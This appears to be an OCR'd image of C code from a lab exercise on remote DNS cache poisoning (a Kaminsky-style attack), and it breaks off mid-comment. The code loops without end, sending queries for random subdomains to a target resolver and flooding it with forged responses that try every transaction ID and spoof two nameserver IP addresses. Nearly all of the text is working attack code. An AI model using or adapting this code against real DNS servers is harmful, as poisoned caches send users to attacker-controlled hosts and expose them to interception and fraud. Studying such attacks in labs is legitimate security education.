 ```c
  while (1) {
    // Generate a random name with length 5
    char name[5];
    for (int k=0; k<5; k++)  name[k] = a[rand() % 26];

    /* Step 1. Send a DNS request to the targeted local DNS server.
               This will trigger the DNS server to send out DNS queries */

    // Modify the name in the question field (offset=41)
    memcpy(ip_req+41, name , 5);
    send_dns_request(ip_req, n_req);

    /* Step 2. Send many spoofed responses to the targeted local DNS server,
               each one with a different transaction ID. */
    
    // Modify the name in the question field (offset=41)
    memcpy(ip_resp+41, name, 5);
    // Modify the name in the answer field (offset=64)
    memcpy(ip_resp+64, name , 5);

    send_dns_response(ip_resp, n_resp);
    
  }
}

/* Use for sending DNS request.
 * Add arguments to the function definition if needed.
 * */
void send_dns_request(unsigned char *packet, int pkt_size)
{
  printf("Sending Spoofed Query!\n");
  send_raw_packet(packet, pkt_size);
}


/* Use for sending forged DNS response.
 * Add arguments to the function definition if needed.
 * */
void send_dns_response(unsigned char *packet, int pkt_size)
{
  char ns[15] = "199.43.133.53";
  char ns2[15] = "199.43.135.53";

  for (unsigned short id = 0; id < 65535; id++) {
    // Modify the transaction ID field (offset=28)
    unsigned short id_net_order = htons(id);
    memcpy(packet+28, &id_net_order, 2);

    // Copy IP address (offset=12)
    int ip_address = (int) inet_addr(ns);
    memcpy(packet+12, (void *) &ip_address, 4);
    send_raw_packet(packet, pkt_size);

    // Copy IP address (offset=12)
    int ip_address2 = (int) inet_addr(ns2);
    memcpy(packet+12, (void *) &ip_address2, 4);
    send_raw_packet(packet, pkt_size);
  }
}


/* Send the raw packet out 
 *    buffer: to contain the entire IP packet, with everything filled out.
```